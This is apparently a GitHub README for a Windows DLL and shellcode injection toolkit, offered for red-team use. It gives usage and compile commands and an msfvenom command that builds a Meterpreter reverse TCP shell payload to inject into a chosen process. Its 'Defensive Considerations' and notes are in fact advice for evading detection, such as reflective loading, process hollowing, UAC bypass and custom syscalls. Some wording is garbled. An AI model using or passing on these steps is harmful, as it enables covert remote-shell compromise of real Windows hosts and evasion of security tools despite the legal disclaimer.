 # Dll-Inject 🔧 | Windows Injection Toolkit

Tools for implementing Windows processes, including implementing DLL libraries and implementing XOR-encrypted shellcode. Includes architecture verification and error handling

![GitHub](https://img.shields.io/badge/Language-C++-blue) 
![License](https://img.shields.io/badge/License-MIT-green) 
![Platform](https://img.shields.io/badge/OS-Windows-lightgrey)

<h2 align="center">⚠️ Legal & Ethical Warning</h2> 
<strong>This project is for educational and authorized security research only.</strong> Unauthorized use, including but not limited to attacking systems without explicit owner consent, is strictly prohibited and violates international cybercrime laws such as:  

**By using this toolkit, you agree to:**
1. **Legal Compliance**: Use only on systems you own or have written authorization to test.  
2. **Ethical Responsibility**: Never engage in malicious activities or data destruction.  
3. **Full Liability**: Assume all legal/financial consequences for misuse.  


## 🛠️ Core Features

| **Feature**              | **DLL Injector**                        | **Shellcode Injector**                        |
|--------------------------|-----------------------------------------|-----------------------------------------------|
| **Injection Method**     | `CreateRemoteThread` + `LoadLibraryW`   | Direct memory execution + XOR decryption      |
| **Payload Delivery**     | On-disk DLL                             | Fully in-memory                               |
| **Memory Protection**    | `PAGE_READWRITE`                        | `PAGE_EXECUTE_READWRITE` (DEP bypass)         |
| **Architecture Control** | Manual matching required                | Auto-detection via `IsWow64Process`           |
| **Obfuscation**          | None                                    | XOR encryption (key: `0xAA`)                  |
| **Payload Types**        | Standard DLLs                           | Staged/Non-staged (CS/Meterpreter compatible) |
| **Error Reporting**      | Win32 error codes                       | Detailed codes + execution timeout            |
| **Cleanup**              | Full handle/memory release              | Post-execution sanitization                   |
| **Ideal For**            | Game modding, debug hooks               | Red team operations, EDR research             |

## 🎯 Usage Scenarios

### DLL Injection
**Test DLL Creation:**
```cpp
// test_dll.cpp
#include <windows.h>
extern "C" __declspec(dllexport) void EntryPoint() {
    MessageBoxA(0, "Injected!", "Success", MB_OK);
}
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason, LPVOID lpReserved) {
    if (ul_reason == DLL_PROCESS_ATTACH) EntryPoint();
    return TRUE;
}
```
**Execution:**
```bash
.\dll-injector.exe (Get-Process notepad).Id "C:\test-payload.dll"
```
---

### Shellcode Injection
**Payload Generation:**
```bash
msfvenom --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=666 -f type
```
**Code Integration:**
```cpp
// shellcode-injector.cpp
unsigned char shellcode[] = { 
    ...
};
```
**Execution:**
```bash
shellcode-injector.exe 1472
```
<h1 align="center">
    <a href="https://github.com/Untouchable17/Windows-DLL-Shellcode-Injection-Toolkit">
        <img src="https://i.ibb.co/KkKZVkS/photo-shellcode.jpg" width="700">
    </a>
</h1>

---

## 🛠️ Compilation Guide

### **DLL Injector**
```bash
# x64
x86_64-w64-mingw32-g++ dll-injector.cpp -o dll-injector.exe -static -lws2_32 -s -Os

# x86
i686-w64-mingw32-g++ dll-injector.cpp -o dll-injector32.exe -static -lws2_32 -s -Os

# Flags: -s (strip symbols), -Os (optimize for size) - optionally
```

### **Shellcode Injector**
```bash
# x64
x86_64-w64-mingw32-g++ shellcode-injector.cpp -o shellcode-injector.exe -static -lwin32 -s -Os

# x86
i686-w64-mingw32-g++ shellcode-injector.cpp -o shellcode-injector32.exe -static -lwin32 -s -Os

# Flags: -s (strip symbols), -Os (optimize for size) - optionally
```

---


## 🛡️ Defensive Considerations
| **Technique**             | **Detection Risk**         | **Mitigation Tips**                                                |
|---------------------------|----------------------------|--------------------------------------------------------------------|
| **Classic DLL Injection** | High                       | Use reflective DLL loading                                         |
| **XOR Encryption**        | Medium                     | Implement AES + runtime key derivation                             |
| **RWX Memory**            | Critical                   | Use NTAPI calls `NtAllocateVirtualMemory` + memory section mapping |
| **Remote Threads**        | High                       | Leverage process hollowing or APC queue injection                  |

---

### ⚠️ Important Notes
- **EDR Bypass:** This toolkit does not implement advanced evasion techniques. Always:
    - Test in isolated environments 
    - Combine with process spoofing/UAC bypass
    - Use custom syscalls instead of WinAPI
- **Shellcode Requirements:**
    - Position-independent (PIC)
    - Null-byte free (if using XOR)
- **Debugging:**
```cpp
#ifdef _DEBUG
printf("[+] Allocated memory at 0x%p\n", remoteBuffer);
#endif
```

---

<h2 align="center">Contact Developer</h2>

    Telegram Group:     t.me/secdet_team
    Email:              tylerblackout17@gmail.com
